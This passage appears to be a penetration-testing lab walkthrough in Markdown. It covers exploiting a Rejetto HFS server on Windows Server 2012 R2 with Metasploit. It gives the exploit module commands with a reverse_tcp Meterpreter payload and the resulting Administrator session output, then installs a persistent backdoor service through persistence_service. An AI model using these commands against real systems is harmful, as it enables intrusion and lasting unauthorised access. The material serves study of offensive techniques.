 ### Exploitation

```bash
search type:exploit name:rejetto
use exploit/windows/http/rejetto_hfs_exec
options
set payload windows/x64/meterpreter/reverse_tcp
run
```

```bash
sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x64/windows

getuid
	Server username: WIN-OMCNBKR66MN\Administrator
```

### Persistence

❗ In order to set up persistence, administrative privileges are required.

```bash
background
search platform:windows persistence
use exploit/windows/local/persistence_service
info
# Description:
#   This Module will generate and upload an executable to a remote host, 
#   next will make it a persistent service. It will create a new service 
#   which will start the payload whenever the service is running. Admin 
#   or system privilege is required.
set payload windows/meterpreter/reverse_tcp
set SESSION 1
run
```

- Successful maintained access. Once the persistent backdoor is installed, it's going to continue to run (across restarts) as a service and a multi handler listening to a connection will receive a connection from the service.

![Metasploit - exploit/windows/local/persistence_service](3-metasploitassets/image-20230419223324328.png)
